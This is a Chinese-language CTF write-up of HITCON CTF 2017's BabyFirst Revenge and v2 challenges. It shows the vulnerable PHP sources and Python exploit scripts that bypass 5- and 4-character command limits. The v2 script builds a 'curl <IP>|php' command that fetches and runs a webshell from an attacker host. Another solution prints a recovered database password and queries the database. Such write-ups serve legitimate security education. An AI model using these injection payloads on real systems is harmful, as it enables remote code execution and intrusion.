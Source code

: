 ```yaml
---
comments: true
toc: true
title: HITCON CTF 2017 BabyFirst Revenge and v2 writeup
tags: [ctf,命令注入]
date: 2017-11-12 17:14:27
categories: writeup
description: 绕过四个字符限制getshell
---
```


> from HITCON CTF 2017
> 2017/11/04 02:00 UTC ~ 2017/11/06 02:00 UTC
>
> https://ctf2017.hitcon.org/

### BabyFirst Revenge

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
>
> <http://52.199.204.34/>

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

详细说明：https://findneo.github.io/171110Bypass4CLimit/ 

拿到shell后在`/home/fl4444g/README.txt`  得到数据库配置信息，然后连接数据库得到flag。

```python
http://52.199.204.34/sandbox/___MD5___of___ip/shell.php?cmd=cat%20/home/fl4444g/README.txt
#    Flag is in the MySQL database
#fl4444g / SugZXUtgeJ52_Bvr

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "show databases;"
#    Database
#information_schema
#fl4gdb

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "select concat(table_name) from information_schema.tables where table_schema='fl4gdb';"
#    concat(table_name)
#this_is_the_fl4g

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g"
#    secret
#hitcon{idea_from_phith0n,thank_you:)}
```



![](getFlag.png)

#### EXP

```python
# by https://findneo.github.io/
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'

reset = url + '?reset'
cmd = url + '?cmd='
build = ['>cur\\',
         '>l\ \\',
         'ls>A',
         'rm c*',
         'rm l*',
         '>105\\',
         '>304\\',
         '>301\\',
         '>9\>\\',
         'ls>>A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['>GE\\',
#          '>T\\ \\',
#          'ls>A',
#          'rm G*',
#          'rm T*',
#          '>105\\',
#          '>304\\',
#          '>301\\',
#          '>9\>\\',
#          'ls>>A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url

s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '\n' + '[%s]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge

### BabyFirst Revenge v2

> BabyFirst Revenge v2
> This is the hardest version! Short enough?
>
> http://52.197.41.31/

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

这题是赛后看wp复现的，只到拿webshell的部分。

详细说明： https://findneo.github.io/171110Bypass4CLimit/

#### EXP

```python
#-*-coding:utf8-*-
# by https://findneo.github.io/
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'

# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'

# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()

# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])

reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + \
    hashlib.md5('orange' + your_ip).hexdigest() + '/'

# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符

payload = [
    '>dir',
    # 创建名为 dir 的文件

    '>%s\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件

    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s

    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl

    '*>v',
    # * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符

    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v

    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f

    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\\',
    '>\|\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\ \\',
    '>rl\\',
    '>cu\\',

    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]

s = r.get(reset)
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2

### 参考链接

[来自小密圈里的那些奇技淫巧](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6) 